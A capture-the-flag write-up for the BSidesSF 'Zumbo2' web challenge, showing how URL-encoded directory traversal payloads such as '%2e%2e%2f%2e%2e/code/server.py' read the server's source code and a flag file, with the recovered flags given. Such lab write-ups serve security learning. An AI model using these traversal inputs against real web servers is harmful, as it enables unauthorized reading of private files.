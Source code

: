 Challenge: Zumbo2 |
----------------------------------------
Category: Web |
----------------------------------------
100 points |
----------------------------------------

```
Description:

Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
Three flags await. Can you find them?

http://zumbo-8ac445b1.ctf.bsidessf.net
Stage 3 - coming soon!

```


We connect to the site.

<img src="./../files/site2.png">

```
We look at the source code and find hint: <!-- page: index.template, src: /code/server.py -->

We will try a traversal directory on /code/server.py.

http://zumbo-8ac445b1.ctf.bsidessf.net/../code/server.py (../) mutliple of 1, 2, 3 etc .... don't match!
[Errno 2] No such file or directory: u'code/server.py' 

redirection: on index.template

we test null byte %00:

http://zumbo-8ac445b1.ctf.bsidessf.net/%00/code/server.py
file() argument 1 must be encoded string without null bytes, not unicode
```
<img src="./../files/erreur_null_byte.png">
```
We have a problem with encoded string!!!!!
. => %2e
/ => %2f

We test with:
http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2f%2e%2e/code/server.py
```
<img src="./../files/flag1.png">

``` 
Bingo we have the source code and first flag !!!!!!

FLAG: FIRST_FLAG_WASNT_HARD

and we have the location of the files !!!!!!

Connect to http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2f%2e%2e/flag
```
<img src="./../files/flag2.png">

```
FLAG: RUNNER_ON_SECOND_BASE 
``` 
